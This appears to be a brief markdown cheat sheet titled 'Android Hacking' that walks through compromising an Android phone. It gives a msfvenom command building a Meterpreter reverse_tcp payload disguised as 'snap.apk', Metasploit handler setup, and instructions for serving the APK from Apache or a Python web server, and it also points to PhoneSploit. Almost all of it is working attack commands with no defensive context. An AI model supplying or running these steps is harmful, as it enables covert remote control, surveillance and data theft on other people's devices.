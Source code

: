 # Android Hacking
```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Local IP> LPORT=<Local Port> R > snap.apk
```

-p --> Payload
--platform --> Android/Win/Linux
-a --> Architecture --> x86/x86_64/dalvik
R --> Raw File
f --> Format Output


### Msfconsole

- Set up the Handler First
```
use exploit/multi/handler
```
- Set up the Payload

```
use android/meterpreter/reverse_tcp
```
- Set LHOST
- Set LPORT
- Exploit 

### Downloading and Installing The APK
Use Apache Service or Python SimpleHTTP Server to share the payload file.

> service apache2 start

> python3 -m http.server 8080

> python2 -m SimpleHttpServer 8080

Moreover PhoneSploit can also be used to connect/exploit an android device.